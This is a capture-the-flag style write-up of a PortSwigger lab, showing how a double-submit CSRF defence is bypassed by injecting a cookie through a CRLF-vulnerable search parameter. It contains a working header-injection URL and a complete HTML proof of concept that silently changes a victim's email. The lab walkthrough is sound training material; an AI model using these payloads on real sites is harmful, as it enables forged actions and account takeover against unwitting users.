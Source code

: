 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/98ba2d55-4c37-4dbc-8940-a2d54f45a06e)

### Solution

![Screenshot 2024-04-17 151717](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f6f62b3b-af44-4bfd-be89-e5242aa5f87d)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0f43510b-c8e0-439a-b1c0-a468a9f5597f)

we can observe that the value of the csrf body parameter is simply being validated by comparing it with the csrf cookie.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/5f0938fd-eaec-435b-890f-2215ad9ef857)

As soon as an adversary is able to set cookie values, the CSRF-protection can be circumvented entirely.The token may or may not require the proper format. So we can try using arbitary values

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7922cce8-929d-44f9-a5a1-662ecca69d7b)

it worked succesfully

Perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/708d1902-a6ad-49aa-9a95-9c8bedd198e0)

Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:

```js
/?search=hello%0d%0aSet-Cookie:%20csrf=test
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f7b97b77-2313-4257-99df-10b17842f1a3)

To create the exploit, I use the CSRF PoC generator of Burp Suite.And remove the auto-submit <script> block and instead add the following code to inject the cookie and submit the form

```js
 <img src="https://0a9f0069041b0a4584abeaec005b006e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

final payload

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9f0069041b0a4584abeaec005b006e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="rahul&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="anytoken" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a9f0069041b0a4584abeaec005b006e.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/3b221986-da3b-4331-a843-1c708d10c206)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/5db7795a-feea-4035-a5fe-e1f8e8270b9a)

lab solved succesfully
